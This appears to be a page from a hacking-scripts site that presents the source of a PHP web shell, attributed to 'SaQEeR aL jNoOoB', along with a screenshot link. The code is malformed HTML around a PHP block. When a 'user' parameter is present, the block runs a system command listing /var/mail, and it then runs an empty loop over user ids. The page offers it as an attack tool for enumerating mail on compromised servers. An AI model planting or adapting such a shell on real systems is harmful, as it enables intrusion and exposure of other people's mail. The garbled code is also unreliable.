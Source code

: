 	
	
	
	&lt;meta http-equiv="content-type" content="text/html; charset=UTF-8"&gt;&lt;/head&gt;&lt;body&gt;&lt;/body&gt;&lt;/html&gt;





      &lt;form style="border: 0px ridge #FFFFFF"&gt;




    &lt;p align="center"&gt;&lt;/td&gt;
  &lt;/tr&gt;&lt;div align="center"&gt;

                &lt;tr&gt;



&lt;input type="submit"   name="user" value="user"&gt;&lt;option value="name"&gt;&lt;/select&gt;
&lt;/form&gt;


&lt;div align="center"&gt;
 &lt;table border="5" width="10%" bordercolorlight="#008000" bordercolordark="#006A00" height="100" cellspacing="5"&gt;
&lt;tr&gt;
&lt;td bordercolorlight="#008000" bordercolordark="#006A00"&gt;
&lt;p align="left"&gt;
&lt;textarea  method='POST' rows="25" name="S1" cols="16"&gt;


&lt;?php



      if ($_GET['user'] )


      system('ls /var/mail');





                                           for($uid=0;$uid&lt;90000;$uid++){

                                        }




?&gt;&lt;/textarea&gt;&lt;/table&gt;
	&lt;strong&gt;
	&lt;h3&gt;&lt;font size="6" color="#333333"&gt;&lt; Coded By SaQEeR aL jNoOoB &gt;&lt;/font&gt;&lt;/h3&gt;
	&lt;/strong&gt;
	&lt;p&gt;nbsp;
</pre>

## Saqueer shell screenshot<figure id="attachment_440" style="width: 541px;" class="wp-caption aligncenter">

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell-541x1024.png" alt="Saqueer shell screenshot" width="541" height="1024" class="size-large wp-image-440" />][1]<figcaption class="wp-caption-text">Saqueer shell screenshot</figcaption></figure>

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png